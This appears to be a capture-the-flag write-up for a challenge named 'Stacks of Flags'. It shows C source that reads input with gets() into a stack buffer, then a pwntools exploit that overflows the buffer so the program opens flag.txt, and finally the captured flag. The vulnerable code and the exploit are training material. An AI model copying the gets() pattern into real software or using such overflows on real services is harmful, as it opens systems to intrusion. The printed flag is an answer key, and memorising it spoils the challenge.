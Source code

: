 # Stacks of Flags

## Challenge

We are given a binary and source code.

Connecting to the challenge prompts us to enter the name of a flag.
Regardless of our input, the server will respond with a list of fake flags that do not match the flag format.

If we look at the source code, we can see that the server is simply readying from a `available_flags.txt` file.
Our input is stored, but not used in any way.

The comment in the source code reveals that there is a `flag.txt` file, but we have no immediate access to this file.

### Source code

```c
#include <stdio.h>
#include <stdlib.h>

/*
    I still haven't taken the time to move our super secret flag
    in "flag.txt" out of this directory. For now I've just made
    totally sure nobody can access it.
        - "Pops"
    */

int main()
{
    setvbuf ( stdout, NULL , _IONBF , 0 );
    
    char file_name[] = "./available_flags.txt";
    char desired_flag[64];

    printf("Hi! Welcome to the \"Mom and Pops' Flags\" flag search page!");
    printf("\nPlease enter the name of the flag you wish to purchase: ");

    gets(desired_flag);

    FILE *flags = fopen(file_name, "rb");

    printf("\nOh, sorry! We don't have that flag in stock :(\nHere is a list of the available flags:\n");
    char ch;
    while ((ch = fgetc(flags)) != EOF)
        putchar(ch);

    fclose(flags);
    printf("\nPlease come back later!");

    return 0;
}
```

## Solution

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host srv1.momandpopsflags.ca --port 1946 search_source
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('search_source')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'srv1.momandpopsflags.ca'
port = int(args.PORT or 1946)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

payload = flat({
    0x60-0x20: b"flag.txt",
    })
io.sendlineafter(b"Please enter the name of the flag you wish to purchase: ", payload)

io.interactive()
```

## Flag

```
magpie{5tumBl3D_tH3_5t4cK_4h502aBAS76}
```
